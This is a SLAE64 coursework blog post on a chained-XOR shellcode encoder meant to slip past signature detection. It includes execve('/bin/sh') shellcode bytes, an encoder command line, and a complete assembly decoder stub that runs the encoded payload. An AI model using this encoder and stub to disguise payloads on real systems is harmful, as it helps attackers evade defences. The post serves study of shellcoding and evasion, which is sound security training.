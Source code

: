 # Custom Encoder

This assignment was about implementing a custom encoder that encodes a shellcode so that it bypasses pattern matching and keeps the reverse engineers busy for a while.

Many encoders already exist: rotencoder, caesar encoder or xor encoder to name a few.
I decided to implement an encoder that that takes a one byte seed as an argument and xors the first byte with this seed. The result of this operation is then used to xor the next byte and so on.

```
            +-------------+--------------+
            |    byte 1   |    byte 2    |
            +------+------+------+-------+
                   |             |
                   v             v
      Seed      +--+--+       +--+--+
+-------------->+ XOR +-------> XOR +---------->
                +--+--+       +--+--+
                   |             |
                   |             |
            +------v------+------v-------+
            |  Encoded 1  |  Encoded 2   |
            +-------------+--------------+
```

The encoder is implemented in python and can be used like this:
```
python2 Encoder.py -sh "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" -k "A"
```

-sh is the original shellcode
-k is the seed

It produces a .asm file that contains the decoding routine and then executes the decoded shellcode.

## Decoder

```
KEY equ 'A'
LEN equ 32
global _start:
section .text

_start:
    jmp _get_pointer ; use call pop technique to get a pointer to the encoded shellcode

_decode:
    pop rdi ; rdi points to encodedshellcode

    push KEY
    pop rsi ; rsi contains the key
    xor rax, rax
    xor rcx, rcx
    cdq ; rax, rcx and rdx are 0

_loop: ; loop over the encoded shellcode and undo the encoding

    cmp rcx, LEN
    jg EncodedShellcode ; if this branch is taken the decoding is done and the shellcode can be executed

    mov al, [rdi]
    xor al, sil
    mov sil, [rdi]
    mov [rdi], al


    inc rdi
    inc rcx
    jmp _loop

_get_pointer:
    call _decode
    EncodedShellcode: db 0x9,0x38,0xf8,0xa8,0xe0,0x5b,0x74,0x16,0x7f,0x11,0x3e,0x11,0x62,0xa,0x59,0x11,0x98,0x7f,0x2f,0x67,0xee,0xc,0x5b,0x13,0x9a,0x7c,0x34,0xb7,0x77,0x4c,0x43,0x46
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
